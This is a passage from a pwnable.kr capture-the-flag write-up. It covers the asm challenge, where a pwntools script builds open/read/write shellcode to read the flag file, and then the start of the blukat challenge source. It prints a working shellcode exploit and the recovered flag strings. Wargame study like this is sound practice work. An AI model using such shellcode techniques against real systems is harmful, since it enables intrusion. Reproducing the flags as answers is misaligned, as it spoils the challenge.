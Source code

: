 ```c
        chroot("/home/asm_pwn");        // you are in chroot jail. so you can't use symlink in /tmp
        sandbox();
        ((void (*)(void))sh)();
        return 0;
}
```
The program prompts the user to input 64bit shellcode.

But we could only use read/write/open to get the flag.

I created the shellcode using pwntool's shellcraft

exploit.py:
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')

sc = ''
sc += shellcraft.pushstr('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')
sc += shellcraft.open('rsp', 0, 0)
sc += shellcraft.read('rax', 'rsp', 50)
sc += shellcraft.write(1, 'rsp', 50)

p = remote('0', 9026)
p.recvuntil(': ')
p.sendline(asm(sc))
p.interactive()
```
got the flag:
```bash
[DEBUG] Received 0x32 bytes:
    'Mak1ng_shelLcodE_i5_veRy_eaSy\n'
    'lease_read_this_file'
Mak1ng_shelLcodE_i5_veRy_eaSy
lease_read_this_file[*] Got EOF while reading in interactive
$
```

## 18. unlink

## 19. blukat
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <fcntl.h>
char flag[100];
char password[100];
char* key = "3\rG[S/%\x1c\x1d#0?\rIS\x0f\x1c\x1d\x18;,4\x1b\x00\x1bp;5\x0b\x1b\x08\x45+";
void calc_flag(char* s){
        int i;
        for(i=0; i<strlen(s); i++){
                flag[i] = s[i] ^ key[i];
        }
        printf("%s\n", flag);
}
int main(){
        FILE* fp = fopen("/home/blukat/password", "r");
        fgets(password, 100, fp);
        char buf[100];
        printf("guess the password!\n");
```